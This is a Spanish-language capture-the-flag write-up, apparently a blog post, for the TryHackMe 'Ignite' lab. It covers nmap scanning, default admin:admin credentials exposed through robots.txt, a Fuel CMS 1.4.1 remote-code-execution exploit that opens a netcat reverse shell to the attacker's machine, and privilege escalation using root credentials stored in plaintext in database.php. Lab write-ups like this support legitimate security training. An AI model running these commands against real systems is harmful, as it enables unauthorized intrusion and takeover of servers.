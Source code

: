 ```yaml
---
title: "ignite"
description: "ignite"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/ignite

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.44.44
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240507183358.png)

## Reconocimiento de servicios

````
nmap -sVC -p80 -Pn 10.10.44.44
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240507183435.png)

## Reconocimiento Web

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240507190831.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240507190846.png)
En robots.txt esta la ruta del panel de iniciar sesión que tiene el admin tiene la contraseña por defecto admin:admin

# Fase de ataque

## Fuel CMS RCE

La versión de Fuel es vulnerable a RCE
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240507191134.png)

## Para ganar acceso al sistema (Reverse Shell)

1. Copiamos el script de github

````
git clone https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated
````

3. Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

2. Mandamos la Reverse Shell

````
python3 Fuel-Updated.py http://10.10.44.44/ 10.9.2.193 443
````

\[-\] ==pwned!==

# Privilege Escalation

En la configuración del fuel de la base de datos están las claves de root en texto claro.
En /var/www/html/fuel/application/config/database.php
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240507192414.png)

````
su root
````

\[+\] ==pwned!==
